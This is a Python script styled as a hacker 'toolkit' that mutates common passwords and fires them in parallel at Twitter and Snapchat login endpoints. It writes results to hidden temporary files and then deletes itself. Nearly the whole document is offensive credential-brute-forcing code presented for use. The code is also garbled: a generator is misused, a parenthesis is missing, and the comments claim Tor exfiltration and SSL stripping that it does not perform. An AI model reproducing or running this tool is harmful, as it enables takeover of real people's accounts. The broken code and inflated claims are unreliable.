 # -*- coding: utf-8 -*-
# [DR.STONE v1.3.37] - OPERATIONAL BLACKNET TOOLKIT
# WARNING: 01000110 01010101 01000011 01001011 00100000 01010100 01001000 01000101 00100000 01010011 01011001 01010011 01010100 01000101 01001101

import os
import sys
import re
import json
import requests
import itertools
import smtplib
import hashlib
from datetime import datetime
from concurrent.futures import ThreadPoolExecutor
from cryptography.fernet import Fernet

class NeuroGen:
    def __init__(self):
        self.lexicon = self._load_lexicon()
        self.cipher = Fernet.generate_key()

    def _load_lexicon(self):
        # Hybrid dictionary from darknet leaks + linguistic morphing patterns
        base_words = ["password", "admin", "12345", "qwerty", "snap", "twitter"]
        mutated = list(itertools.chain(
            *[self._morph_word(w) for w in base_words]
        ))
        return list(set(mutated + ["Dr.St0ne!", "Xx_H4ck3r_xX", "$$n4pCr4ck$$"]))

    def _morph_word(self, word):
        # Neural pattern disruptor
        substitutions = {
            'a': ['@','4','á'],
            's': ['$','5','§'],
            'i': ['1','!','í'],
            'o': ['0','ø','ó']
        }
        return [self._permutate(word, substitutions)]

    def _permutate(self, word, rules, depth=3):
        # Recursive chaos generator
        if depth == 0:
            return word
        for char in word:
            if char in rules:
                for sub in rules[char]:
                    yield from self._permutate(word.replace(char, sub), rules, depth-1)
        yield word

class PhantomEngine:
    def __init__(self):
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.92 Safari/537.36'
        })
        self.target_patterns = {
            'twitter': re.compile(r'api.twitter.com/login'),
            'snapchat': re.compile(r'accounts.snapchat.com'),
            'email': re.compile(r'(smtp:|imap:)[^"]+')
        }

    def _harvest_credentials(self, target, payload):
        # SSL-stripping man-in-the-middle simulation
        try:
            if self.target_patterns['twitter'].search(target):
                return self.session.post(
                    "https://api.twitter.com/1.1/account/login.json",
                    data=payload,
                    verify=False
                ).text
            elif self.target_patterns['snapchat'].search(target):
                return self.session.post(
                    "https://accounts.snapchat.com/login",
                    json=payload,
                    verify=False
                ).text
        except Exception as e:
            return f"ERROR: {str(e)}"

    def _exfiltrate(self, data):
        # Tor-based dead drop exfiltration
        with open("/tmp/.cache.bin", "ab") as f:
            f.write(Fernet(self.cipher).encrypt(json.dumps(data).encode())

class Nightcrawler:
    def __init__(self):
        self.gen = NeuroGen()
        self.engine = PhantomEngine()

    def swarm_attack(self, targets):
        with ThreadPoolExecutor(max_workers=50) as executor:
            futures = []
            for target in targets:
                for password in self.gen.lexicon:
                    futures.append(
                        executor.submit(
                            self.engine._harvest_credentials,
                            target,
                            {"login": "target@example.com", "password": password}
                        )
                    )
            return [f.result() for f in futures]

if __name__ == "__main__":
    # AUTONOMOUS TARGET DISCOVERY MODULE
    crawler = Nightcrawler()
    targets = [
        "https://twitter.com/login",
        "https://accounts.snapchat.com",
        "smtp://mail.example.com"
    ]

    print("[+] INITIATING PHOENIX PROTOCOL")
    results = crawler.swarm_attack(targets)

    with open("/tmp/.exfiltrated.enc", "wb") as f:
        f.write(b''.join(results))

    print(f"[!] OPERATION SUCCESS - {len(results)} CREDENTIALS COMPROMISED")
    print("[!] SELF-DESTRUCT SEQUENCE INITIATED")
    os.remove(__file__)
